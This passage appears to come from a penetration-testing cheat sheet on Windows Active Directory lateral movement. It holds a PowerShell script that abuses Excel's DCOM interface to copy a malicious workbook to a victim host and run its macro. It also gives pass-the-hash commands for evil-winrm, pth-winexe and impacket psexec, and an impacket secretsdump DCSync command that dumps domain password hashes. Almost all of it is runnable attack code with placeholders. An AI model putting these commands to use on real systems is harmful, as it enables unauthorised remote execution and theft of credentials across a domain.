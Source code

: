         ```powershell
        # 1. Instance of a DCOM object with program ID => Excel
        $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$VICTIM_IP"))
        
        # cmdlet to discover its available methods and objects
        #$com | Get-Member
        
        # 2. Copy the Malicious Excel document to the target
        $LocalPath = "C:\Users\Administrator\myexcel.xls"
        
        $RemotePath = "\\$VICTIM_IP\c$\myexcel.xls"
        
        [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
        
        # 3. Create a profile for the SYSTEM account (used for the opening process)
        $Path = "\\$VICTIM_IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"
        $temp = [system.io.directory]::createDirectory($Path)
        
        # 4. Open the Excel Document remotely
        $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
        
        # 5. Run the Macro
        $com.Run("mymacro")
        ```
        
- #️⃣ Pass The Hash:
    - `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`
    - `pth-winexe -U '<username>%<NTLM_HASH' //<IP> cmd.exe` (rely on SMB protocol)
        - Executing an application such as `cmd` requires administrative privileges (authentication to the administrative share `C$` + creation of a Windows service)
    - `python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes <NTLM_Hash> <USER>@<IP> cmd.exe`
- **DCSync** privilege ⇒ give us the right to perform a domain synchronization and finally dump all the password hashes
    
    > When a DC receives a request for an update, it does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.
    > 
    - Retrieving all of the password hashes that a user account (that is synced with the domain controller) has to offer:
        - Impacket
            
            ```bash
            python3 /usr/share/doc/python3-impacket/examples/secretsdump.py [-just-dc-ntlm] <domainName>/<username>[:<password>]@<IP>
            ```
            